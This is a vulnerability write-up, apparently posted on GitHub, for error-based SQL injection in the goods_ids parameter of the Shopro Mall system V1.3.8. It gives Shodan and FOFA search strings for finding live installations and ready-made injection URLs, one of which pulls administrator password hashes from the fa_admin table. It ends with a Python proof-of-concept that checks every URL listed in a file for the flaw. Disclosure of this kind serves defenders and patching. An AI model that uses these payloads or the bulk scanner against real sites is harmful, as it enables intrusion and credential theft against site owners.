 # Shopro Mall system V1.3.8 Value parameter has SQL injection 
## Shopro Mall system
  
Official Website：https://shopro.top
Github：https://github.com/ITmonkey-cn/shopro.git
![](./images/Pasted image 20220701231852.png)
## Search
shodan：http.title:"shopro"
fofa：title="shopro"

## Vulnerability Type 
Error-Based SQL Injection

## Vulnerability Version
V1.3.8

## Recurring environment: 
+ ubuntu
+ python3.7

## Vulnerability Description AND recurrence

![](./images/Pasted image 20220701232717.png)
1. F12 find something interesting
	![](./images/Pasted image 20220701234759.png)

2. parameter goods_ids has sql error message
	![](./images/Pasted image 20220701234835.png)

	```
	http://url/addons/shopro/goods/lists?page=1&goods_ids=32),updatexml(1,concat(0x7e,(select database()),0x7e),1)-- -
	```

3. Find information whit Error-Based SQL Injection 
	![](./images/Pasted image 20220701235115.png)


	```
	http://url/addons/shopro/goods/lists?page=1&goods_ids=32),updatexml(1,concat(0x7e,(select group_concat(password) from fa_admin),0x7e),1)-- -
	```
	![](./images/Pasted image 20220701235712.png)
4. POC
	```
	import requests
	requests.packages.urllib3.disable_warnings()
	def poc(url):
		try:
			payload = "/addons/shopro/goods/lists?page=1&goods_ids=32),updatexml(1,concat(0x7e,(select database()),0x7e),1)-- -"
			target = url + payload
			#print(url)
			header = {'User-Agent':'Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.6) Gecko/20091201 Firefox/3.5.6'}
			response = requests.get(target, headers=header, timeout=5,verify=False)
			#print(response.status_code)
			#print(response.text)
			if response.status_code == 500 and "XPATH" in response.text:
				print(url + " is vulnerable")
		except Exception as e:
			pass
		else:
			pass


	def main():
		with open('url.txt',encoding='utf-8') as f:
			for i in f.readlines():
				poc( i.strip())
			f.close()


	if __name__ == '__main__':	
		main()   
	```
